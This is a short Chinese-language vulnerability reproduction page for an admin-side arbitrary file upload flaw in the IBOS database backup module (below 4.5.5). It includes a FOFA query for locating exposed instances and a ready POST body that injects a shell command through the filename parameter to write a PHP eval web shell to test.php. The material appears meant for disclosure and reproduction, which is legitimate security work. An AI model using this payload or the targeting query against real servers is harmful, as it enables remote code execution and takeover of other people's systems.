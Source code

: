 # IBOS 数据库模块 后台任意文件上传漏洞

# IBOS 数据库模块 后台任意文件上传漏洞

## 漏洞描述

IBOS 后台数据库模块 存在任意文件上传漏洞，攻击者进入后台后可以上传恶意文件控制服务器

## 漏洞影响

```
IBOS < 4.5.5
```

## 网络测绘

```
body="IBOS" && body="login-panel"
```

## 漏洞复现

登录页面

```plain
http://xxx.xxx.xxx.xxx/?r=dashboard/default/login
```



找到数据库备份模块



![](/images/202202091853548.png)



提交并抓包



![](/images/202202091853668.png)



修改filename参数发送包会上传test.php文件到根目录



```plain
backuptype=all&custom_enabled=1&method=shell&sizelimit=2048&extendins=0&sqlcompat=MYSQL41&sqlcharset=utf8&usehex=0&usezip=0&filename=peiqi%26echo "<?php eval($_REQUEST[test]);?>">test%PATHEXT:~0,1%php%26test&dbSubmit=1
```



![](/images/202202091854875.png)

